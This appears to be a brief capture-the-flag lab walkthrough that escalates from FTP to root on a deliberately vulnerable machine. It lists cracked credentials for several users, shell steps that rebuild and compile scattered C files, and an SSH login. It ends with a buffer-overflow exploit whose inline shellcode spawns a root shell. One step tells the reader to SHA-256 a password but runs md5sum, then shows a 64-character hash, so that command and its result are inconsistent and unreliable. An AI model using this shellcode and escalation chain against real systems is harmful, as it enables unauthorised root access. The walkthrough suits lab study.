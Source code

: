 #### FTP access

```sh
cat /home/LOOKATME/password
```

```
lmezard:G!@M6f4Eatau{sF"
```

#### SSH with laurie

```sh
tar xf fun

for file_path in $(ls -l | awk '{print $9}'); do grep //file $file_path | tr -d '\n' >> output; echo ' : ' $file_path >> output; done
cat output | awk -F'file' '{print $2}' | awk '{print $1 " " $3}' > file_and_its_order.txt
sort -n file_and_its_order.txt

for file_name in $(sort -n file_and_its_order.txt | awk '{print $2}'); do cat $file_name >> combined.c ; echo >> combined.c; done

gcc combined.c -o combined
./combined
```

```
MY PASSWORD IS: Iheartpwnage
Now SHA-256 it and submit
```

```sh
echo -n Iheartpwnage | md5sum
```

- username: laurie
- password: 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4

#### Login Via SSh for thor After Defused the bomb

```sh
ssh thor@192.168.100.18
password: Publicspeakingisveryeasy.126241207201b2149opekmq426135
```

#### zaz access

```sh
echo -n SLASH | md5sum
646da671ca01bb5d84dbb5fb2238dc8e
```

```
username: zaz
password: 646da671ca01bb5d84dbb5fb2238dc8e
```

#### root exploit `root shell`

```sh
./exploit_me $(python -c  'print("\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" + 115*"a" + 4*"b" + "\x50\xf6\xff\xbf")' )
```
